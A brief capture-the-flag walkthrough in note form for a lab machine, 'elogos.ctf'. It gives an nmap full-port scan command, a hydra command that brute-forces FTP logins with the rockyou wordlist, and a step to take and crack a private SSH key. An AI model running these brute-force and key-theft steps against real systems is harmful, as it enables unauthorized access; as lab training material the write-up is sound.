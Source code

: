 ### **PORT SCANNING**
```bash
nmap -sT -T5 --min-rate=10000 -p- 192.168.86.129
```
![[Pasted image 20231011153211.png]]

### **PATH 1 - FTP**
Go to http://elogos.ctf/about-us and take note of the listed username (email)
![[Pasted image 20231011153524.png]]

After that launch a brute force with hydra on ftp to gain access
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://elogos.ctf
```

ls -la and take the private ssh key. Crack it.

![[Pasted image 20231011153933.png]]